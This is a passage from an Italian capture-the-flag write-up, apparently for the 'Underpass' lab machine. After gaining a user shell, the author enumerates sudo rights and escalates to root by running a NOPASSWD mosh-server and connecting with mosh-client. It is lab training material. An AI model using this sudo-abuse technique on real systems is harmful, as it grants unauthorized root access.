 ```shell
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$
```

Siamo dentro! Prendiamo la user flag e procediamo con la privilege escalation.

## Shell come svcMosh

### Enumerazione Interna

Facciamo sempre il solito comando dopo aver preso la user flag, `sudo -l`.

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

> Mosh è una alternativa ad ssh che permette di mantenere connessioni/sessioni attive anche senza costante connessione fra i 2 host. 
{: .prompt-info }

### Privilege Escalation

Per diventare root sarà sufficiente utilizzare il comando `mosh-server` sulla macchina nemica e usare `mosh-client` sulla nostra macchina per collegarci.

> IMPORTANTE: Utilizza le porte fra la 60000 e la 61000 (**Altrimenti non riusciremo a collegarci**).
{: .prompt-danger }

```shell
svcMosh@underpass:~$ sudo /usr/bin/mosh-server new -p 60014


MOSH CONNECT 60014 qttlejiDN1U+kmxMa2Jh2w

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2301]
```
